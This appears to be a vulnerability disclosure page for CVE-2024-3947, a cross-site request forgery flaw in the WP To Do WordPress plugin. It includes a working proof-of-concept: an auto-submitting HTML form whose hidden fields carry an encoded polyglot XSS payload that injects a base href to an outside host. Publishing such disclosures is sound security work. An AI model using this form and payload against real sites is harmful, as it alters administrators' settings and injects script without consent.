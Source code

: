 ```yaml
---
layout: page
title: CVE-2024-3947
subtitle: WP To Do <= 1.3.0 - Cross-Site Request Forgery via wptodo_settings
---
```

## Description
The WP To Do plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.3.0. This is due to missing or incorrect nonce validation on the wptodo_settings() function. This makes it possible for unauthenticated attackers to modify the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.3.0

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / https://x.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=wptodo_settings" method="POST">
      <input type="hidden" name="subject" value="JavaScript&#58;&#47;&#47;&#37;0A&#47;&#42;&#63;&apos;&#47;&#42;&#92;&#92;&apos;&#47;&#42;&quot;&#47;&#42;&#92;&#92;&quot;&#47;&#42;&#96;&#47;&#42;&#92;&#92;&#96;&#47;&#42;&amp;apos&#59;&#41;&#47;&#42;&lt;&#33;&#45;&#45;&gt;&lt;&#47;Title&#47;&lt;&#47;Style&#47;&lt;&#47;Script&#47;&lt;&#47;textArea&#47;&lt;&#47;iFrame&#47;&lt;&#47;noScript&gt;&#92;&#92;74k&lt;K&#47;contentEditable&#47;autoFocus&#47;OnFocus&#61;&#47;&#42;&#36;&#123;&#47;&#42;&#47;&#59;&#123;&#47;&#42;&#42;&#47;&#40;confirm&#41;&#40;1&#43;2&#43;3&#43;4&#43;5&#43;6&#43;7&#43;8&#43;9&#43;10&#43;11&#43;12&#43;13&#43;14&#43;15&#43;16&#43;17&#43;18&#43;19&#43;20&#43;45&#43;500&#43;1000&#45;400&#45;20&#43;2&#41;&#125;&#47;&#47;&gt;&lt;Base&#47;Href&#61;&#47;&#47;ener1&#45;s3c&#46;github&#46;io&#92;&#92;76&#45;&#45;&gt;" />
      <input type="hidden" name="body" value="JavaScript&#58;&#47;&#47;&#37;0A&#47;&#42;&#63;&apos;&#47;&#42;&#92;&#92;&apos;&#47;&#42;&quot;&#47;&#42;&#92;&#92;&quot;&#47;&#42;&#96;&#47;&#42;&#92;&#92;&#96;&#47;&#42;&amp;apos&#59;&#41;&#47;&#42;&lt;&#33;&#45;&#45;&gt;&lt;&#47;Title&#47;&lt;&#47;Style&#47;&lt;&#47;Script&#47;&lt;&#47;textArea&#47;&lt;&#47;iFrame&#47;&lt;&#47;noScript&gt;&#92;&#92;74k&lt;K&#47;contentEditable&#47;autoFocus&#47;OnFocus&#61;&#47;&#42;&#36;&#123;&#47;&#42;&#47;&#59;&#123;&#47;&#42;&#42;&#47;&#40;confirm&#41;&#40;1&#43;2&#43;3&#43;4&#43;5&#43;6&#43;7&#43;8&#43;9&#43;10&#43;11&#43;12&#43;13&#43;14&#43;15&#43;16&#43;17&#43;18&#43;19&#43;20&#43;45&#43;500&#43;1000&#45;400&#45;20&#43;2&#41;&#125;&#47;&#47;&gt;&lt;Base&#47;Href&#61;&#47;&#47;ener1&#45;s3c&#46;github&#46;io&#92;&#92;76&#45;&#45;&gt;" />
      <input type="hidden" name="submit" value="Submit&#32;Query" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/browser/wp-todo/trunk/inc/Base/Model.php#L304
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-todo/wp-to-do-130-cross-site-request-forgery-via-wptodo-settings






